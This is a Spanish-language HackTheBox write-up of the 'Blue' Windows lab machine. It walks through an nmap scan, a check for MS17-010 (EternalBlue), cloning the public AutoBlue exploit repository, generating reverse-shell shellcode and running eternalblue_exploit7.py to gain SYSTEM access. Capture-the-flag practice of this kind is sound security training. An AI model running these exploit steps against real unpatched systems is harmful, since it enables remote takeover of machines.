 ```yaml
---
layout: single
title: Writeup HTB - Maquina Blue
comments: true
excerpt: "La maquina Blue es una masquina windows - Easy, encontramos una maquina con una vulnerabilidad muy conocida el popular ms17-010, para explotar dicha vulnerabilidad haremos uso de un exploit del repositorio AutoBlue, ejecutando dicho exploit podemos ejecutar comandos en el servidor como nt authority system."
date: 2022-02-03
classes: wide
header:
  teaser: /assets/images/2022-02-03-writeup-maquina-htb-bashed/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - Windows
  - Easy
---
```


# Blue

<p align="center">
<img src="/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled.png">
</p>

## Resumen

<div style="text-align: justify">
La maquina Blue es una masquina windows - Easy, encontramos una maquina con una vulnerabilidad muy conocida el popular ms17-010, para explotar dicha vulnerabilidad haremos uso de un exploit del repositorio AutoBlue, ejecutando dicho exploit podemos ejecutar comandos en el servidor como nt authority system.
</div>

## Scan Nmap

Hacemos un escaneo simple a nuestra maquina

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%201.png)

podemos ver que es un **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**  y entonces tambien notamos que tenemos el puerto 445. Partiendo de esto lo primero que podriamos probar son los scripts de nmap para ver si esta maquina tiene una vulnerabilidad conocida. Asi pues vemos que nmap nos arroja que existe un vulnerabilidad con CVE-2017-0143, que es el popular ms17-010

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%202.png)

para explotar dicha vulnerabilidad, buscamos un exploit del siguiente repositorio

[GitHub - 3ndG4me/AutoBlue-MS17-010: This is just an semi-automated fully working, no-bs, non-metasploit version of the public exploit code for MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

descargamos el repositorio e instalamos todo lo nesecario para hacerlo funcionar de la siguiente manera

```bash
Blue # ❯ git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
Blue # ❯ cd AutoBlue-MS17-010
AutoBlue-MS17-010 # ❯ pip install -r requirements.txt
```

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%203.png)

podemos usar el checker para ver si la maquina victima se encuentra parchado o no dicha vulnerabilidad

```bash
AutoBlue-MS17-010 # ❯ python eternal_checker.py 10.129.161.33
```

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%204.png)

el siguiente paso se generar unas shellcode de la siguiente manera

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%205.png)

al generar ingresamos nuestra direccion IP y los puertos que elegiremos para se conecten a una reverse shell

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%206.png)

a veces la herramienta no genera el sc_all.bin, asi que toca probar con sc_x86.bin y sc_x64.bin, asi de esta manera obtenemos una reverse shell con permisos de nt authority\system

```bash
Blue # ❯ python3 eternalblue_exploit7.py 10.129.161.39 shellcode/sc_x64.bin
```

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%207.png)

gracias por tomarte el tiempo de leer este writeup, nos vemos AbelJM.